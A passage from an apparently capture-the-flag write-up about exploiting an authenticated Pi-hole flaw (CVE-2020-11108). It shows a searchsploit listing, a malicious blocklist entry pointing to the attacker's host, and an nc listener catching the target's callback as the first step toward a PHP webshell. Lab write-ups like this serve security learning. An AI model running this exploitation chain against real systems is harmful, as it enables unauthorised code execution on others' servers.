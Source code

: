 `searchsploit` shows there’s an authenticated remote code execution vulnerability in versions less than or equal to 4.4:

```

root@kali# searchsploit pi-hole
-------------------------------------------------------- ---------------------------------
 Exploit Title                                          |  Path
-------------------------------------------------------- ---------------------------------
Pi-Hole - heisenbergCompensator Blocklist OS Command Ex | php/remote/48491.rb
Pi-hole 4.4.0 - Remote Code Execution (Authenticated)   | linux/webapps/48519.py
Pi-hole < 4.4 - Authenticated Remote Code Execution     | linux/webapps/48442.py
Pi-hole < 4.4 - Authenticated Remote Code Execution / P | linux/webapps/48443.py
Pi-Hole Web Interface 2.8.1 - Persistent Cross-Site Scr | linux/webapps/40249.txt
-------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```

The first four exploits are all the same bug.

### Webshell

I can try to run the scripts, but they don’t work in current form. [This blog post](https://frichetten.com/blog/cve-2020-11108-pihole-rce/) talks about how the bug was discovered, and gives a step by step for the manual process (and a lot of interesting technical detail). The bug isn’t technically RCE, but rather upload filter bypass that leads to RCE as it allows me to upload PHP into a directory that will run it.

Logged into the Pi-hole, I’ll pull up settings –> blocklists:

![image-20200820161648754](https://0xdfimages.gitlab.io/img/image-20200820161648754.png)

I’ll start Netcat with `nc -lnvp 80`, and then add the following new blocklist:

![image-20200820162029391](https://0xdfimages.gitlab.io/img/image-20200820162029391.png)

First I’ll hit Save, and it shows up in the list of blocklists:

[![image-20200820162352490](https://0xdfimages.gitlab.io/img/image-20200820162352490.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20200820162352490.png)

Then I’ll hit Save and Update, and it redirects to a new page, which hangs waiting on a connection at my `nc`. I’ll return it a 200 OK, along with some arbitrary text, and then Ctrl-C to exit:

```

root@kali# nc -lnvp 80
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.200.
Ncat: Connection from 10.10.10.200:39718.
GET / HTTP/1.1
Host: 10.10.14.24
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Accept: */*

HTTP/1.1 200 OK

0xdf was here!

^C

```
